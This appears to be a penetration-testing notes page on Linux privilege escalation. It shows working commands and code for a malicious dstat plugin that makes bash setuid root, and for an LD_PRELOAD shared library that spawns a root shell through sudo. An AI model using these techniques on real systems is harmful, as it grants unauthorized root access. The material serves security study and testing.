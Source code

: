 # 🔒 Privilege escalation

### dstat

If dstat can be run as root it is possible to write a new plugin to make some actions like the root inside the system.

Using LinPeas the output should be something like this:

```
permit nopass <user> as root cmd /usr/bin/dstat
```

<p align="center">
    <img width="70%" src={require("./assets/dstat.png").default}></img>
</p>

New plugins can be written inside the folder `/usr/local/share/dstat`

The filename format should be `dstat_<plugin_name>.py` like `dstat_hack.py`

```bash
vi /usr/local/share/dstat/dstat_hack.py
```

This could be the content of the file

```py
import os
os.system('chmod +s /usr/bin/bash')
```

This code once executed activates the setuid bit of bash making it runnable as root.

Now, it is possible to run the custom plugin and become root.

```
sudo /usr/bin/dstat --hack
bash -p
```

### LD_PRELOAD trick

You can use this trick if the user has access to a binary or a script with sudo privilege.

Also, there must be no specific override of the LD_PRELOAD variable. You can check it by using the command `sudo -l`.

```c title="shell.c"
void _init()
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    execl("/bin/sh", "-sh", 0);
}
```

To compile use this command:

```bash
gcc -shared -fPIC -nostartfiles -o shell.so shell.c
```

Finally, run the file with privileges prepended with the new library

```bash
sudo LD_PRELOAD=/tmp/shell.so <PATH>
```
